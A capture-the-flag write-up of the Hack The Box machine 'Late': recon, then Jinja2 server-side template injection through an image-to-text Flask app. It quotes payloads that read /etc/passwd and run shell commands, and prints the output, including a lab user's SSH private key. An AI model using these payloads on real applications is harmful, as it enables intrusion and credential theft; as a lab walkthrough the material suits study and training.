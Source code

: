 # Late

## Late

**Date**: 22/05/2022

**Difficulty**: EASY

**CTF**: [https://app.hackthebox.com/machines/Late](https://app.hackthebox.com/machines/Late)

***

## Recognizance Phase

Let’s start sending a ping to the target IP:

<figure><img src="../../.gitbook/assets/late0.png" alt=""><figcaption></figcaption></figure>

We receive the ping back and we can see that ttl value is 63, so the target machine is a linux.

Let’s scan all TCP ports of the target IP machine and see which ones are open:

<figure><img src="../../.gitbook/assets/late1.png" alt=""><figcaption></figcaption></figure>

It reports us 2 open ports: 22 (probably ssh) and 80 (probably http).

Let’s run some basic enumeration scripts to detect the services and their versions that are running in these ports:

<figure><img src="../../.gitbook/assets/late2.png" alt=""><figcaption></figcaption></figure>

The port 22 is running OpenSSH 7.6p1. If we do a quick search of that version on launchpad:

<figure><img src="../../.gitbook/assets/late3.png" alt=""><figcaption></figcaption></figure>

We can see that the target machine may be running an ubuntu bionic. We’ll see later if it matches.

The port 80 is running a HTTP service and it appears to be using nginx 1.14.0. Let’s launch a whatweb scan to that service:

<figure><img src="../../.gitbook/assets/late4.png" alt=""><figcaption></figcaption></figure>

At email, we can see that it’s using the domain late.htb, so let’s add it to the /etc/hosts file in our machine:

<figure><img src="../../.gitbook/assets/late5.png" alt=""><figcaption></figcaption></figure>

Now, let’s visit the webpage with the IP and with the domain late.htb to see if there is any difference (in this case the page displayed seems to be the same).

<figure><img src="../../.gitbook/assets/late6.png" alt=""><figcaption></figcaption></figure>

Taking a look to the main webpage I discover a link that redirect us to the subdomain `images.late.htb`:

<figure><img src="../../.gitbook/assets/late7.png" alt=""><figcaption></figcaption></figure>

Let’s add it to the /etc/hosts file and visit it:

<figure><img src="../../.gitbook/assets/late8.png" alt=""><figcaption></figcaption></figure>

Interesting, it seems to be an online service for converting image to text using a tool named Flask. There is a field where we can select a file of our machine and a button that will start the scan process…

Let’s test it with a valid image with text to see what happens:

<figure><img src="../../.gitbook/assets/late9.png" alt=""><figcaption></figcaption></figure>

I have uploaded a PNG file with the text ”Hi, I’m Angel LM!” and after clicking on SCAN IMAGE button the site asks me to download the results… Let’s see what’s inside:

<figure><img src="../../.gitbook/assets/late10.png" alt=""><figcaption></figcaption></figure>

Pretty close to the text!

Let’s investigate about Flask. According to Wikipedia, Flask is a micro web framework written in Python that allows to create web apps.

As we saw earlier, this app is getting an image, finding the text inside it, and sending us the result in an HTML way `<p> THE RESULT </p>`

Maybe we can inject code as a file, inside the file name or in a image as text.

Let’s use Burp Suite to intercept a petition and see more info:

<figure><img src="../../.gitbook/assets/late11.png" alt=""><figcaption></figcaption></figure>

Apparently it is sending the data image by POST to /scanner.

Let’s try to upload a TXT file to the form.

<figure><img src="../../.gitbook/assets/late12.png" alt=""><figcaption></figcaption></figure>

An error “invalid extension” shows up any time I try to upload any file that hasn’t an image file extension.

What if I change the extension to .jpg, creating a non valid image?

<figure><img src="../../.gitbook/assets/late13.png" alt=""><figcaption></figcaption></figure>

Mmm… there is some information leakage? Apparently there is a user named `svc_acc` in the target machine. The files I send to scanner are being saved in `/home/svc_acc/app/uploads/` folder.

Ok, so there is no way to upload a malicious file. What about injecting the code inside the image? If we create an image of a code that could be executed by the framework we get an RCE and maybe we can get a Reverse Shell after.

I found this interesting article from hacktricks: [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

The first step is to know if there is an Server Side Template Injection (SSTI) vulnerability.

To do so, I prepared this image:

<figure><img src="../../.gitbook/assets/late14.png" alt=""><figcaption></figcaption></figure>

And received this response from the scan web tool:

```bash
<p>49
${7*7}

<%= /*/] %>
S49
#{7*7}
</p>
```

Apparently, the strings `{{7*7}}` are being executed, so it is vulnerable to SSTI. Nice.

Now, let’s do some more checks to identify the template engine.

<figure><img src="../../.gitbook/assets/late15.png" alt=""><figcaption></figcaption></figure>

Apparently, Flash uses Jinja2 by defect, but let’s check it:

<figure><img src="../../.gitbook/assets/late16.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late17.png" alt=""><figcaption></figcaption></figure>

```bash
<p>7777777
</p>
```

Seems to be Jinja2.

In the hacktricks article, there are some examples of reading remote files exploiting jinja2:

```bash
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

And examples of RCE:

```bash
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

The scanning app doesn’t recognize the text very well and it drop errors everytime I try to upload an image with executable code, and it’s hard to know where it failed. To deal with this, I removed the `{{ }}` from the text and modify the size of the text one time after another until the text I wrote is the same I received.

<figure><img src="../../.gitbook/assets/late18.png" alt=""><figcaption></figcaption></figure>

Monospace 36 with kerning adjustments in some parts.

<figure><img src="../../.gitbook/assets/late19.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late20.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late21.png" alt=""><figcaption></figcaption></figure>

I tried to launch a reverse shell in multiples ways: bash, python, netcat… but no one succeded, so I’ll do manual enumeration via SSTI i guess…

<figure><img src="../../.gitbook/assets/late22.png" alt=""><figcaption></figcaption></figure>

```bash
<p>svc_acc

</p>
```

<figure><img src="../../.gitbook/assets/late23.png" alt=""><figcaption></figcaption></figure>

```bash
<p>app
file
user.txt

</p>
```

<figure><img src="../../.gitbook/assets/late24.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 60
drwxr-xr-x 9 svc_acc svc_acc  4096 May 23 21:11 .
drwxr-xr-x 3 root    root     4096 Jan  5 10:44 ..
drwxrwxr-x 7 svc_acc svc_acc  4096 May 23 21:16 app
lrwxrwxrwx 1 svc_acc svc_acc     9 Jan 16 18:45 .bash_history -&gt; /dev/null
-rw-r--r-- 1 svc_acc svc_acc  3771 Apr  4  2018 .bashrc
drwx------ 3 svc_acc svc_acc  4096 Apr  7 13:51 .cache
drwxr-x--- 3 svc_acc svc_acc  4096 May 23 20:15 .config
-rw-rw-r-- 1 svc_acc svc_acc     0 May 23 20:42 file
drwx------ 4 svc_acc svc_acc  4096 May 23 20:09 .gnupg
drwxrwxr-x 5 svc_acc svc_acc  4096 Jan  5 12:13 .local
-rw-r--r-- 1 svc_acc svc_acc   807 Apr  4  2018 .profile
drwx------ 2 svc_acc svc_acc  4096 May 23 20:04 .ssh
-rw-r----- 1 root    svc_acc    33 May 23 19:12 user.txt
drwxr-xr-x 2 svc_acc svc_acc  4096 May 23 20:40 .vim
-rw------- 1 svc_acc svc_acc 10192 May 23 21:11 .viminfo

</p>
```

<figure><img src="../../.gitbook/assets/late25.png" alt=""><figcaption></figcaption></figure>

```bash
<p>8374#######################b33

</p>
```

<figure><img src="../../.gitbook/assets/late26.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 20
drwx------ 2 svc_acc svc_acc 4096 May 23 20:04 .
drwxr-xr-x 9 svc_acc svc_acc 4096 May 23 21:11 ..
-rw-rw-r-- 1 svc_acc svc_acc  394 May 23 20:04 authorized_keys
-rw------- 1 svc_acc svc_acc 1679 Apr  7 11:08 id_rsa
-rw-r--r-- 1 svc_acc svc_acc  394 Apr  7 11:08 id_rsa.pub

</p>
```

```bash
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
################################################################
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```

<figure><img src="../../.gitbook/assets/late27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late28.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late31.png" alt=""><figcaption></figcaption></figure>
